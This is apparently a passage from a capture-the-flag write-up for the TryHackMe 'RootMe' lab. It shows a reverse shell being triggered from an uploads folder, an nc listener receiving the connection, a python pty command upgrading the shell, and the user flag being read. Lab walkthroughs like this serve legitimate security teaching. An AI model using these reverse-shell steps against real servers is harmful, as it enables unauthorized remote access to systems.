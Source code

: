 ![image](https://github.com/user-attachments/assets/0b6bac2a-fc81-4d6c-b336-78e4643b286d)

After we upload we need to excute this.
as we find upload directory `uploads` head to that 

![image](https://github.com/user-attachments/assets/2836cc50-1d92-4c5b-a67b-abd29b7e4600)

Clik on reverse shell 
![image](https://github.com/user-attachments/assets/9605f5ab-34ff-4dc1-991b-e1c2aa635cbd)

As we got the shell
![image](https://github.com/user-attachments/assets/016fa166-6cc5-4d2c-a3db-a15411a2e5f9)

![image](https://github.com/user-attachments/assets/697ef3e1-c4fb-4a65-af06-359cda6b35bb)

Next step is to find User flag
```
nc -lnvp 1234
Listening on 0.0.0.0 1234
Connection received on 10.10.184.38 58302
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 06:47:13 up 4 min,  0 users,  load average: 0.29, 0.37, 0.18
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
Let swape a stable shell
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
```
Listening on 0.0.0.0 1234
Connection received on 10.10.15.83 51172
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 06:21:30 up 44 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@rootme:/$ 
```
Let find user flag as the web server is hosted
```
www-data@rootme:/$ cd /var/www     		
cd /var/wwwc
www-data@rootme:/var/www$cat user.txt
cat user.txt
THM{y0u_g0t_a_sh3ll}
www-data@rootme:/var/www$ 
```
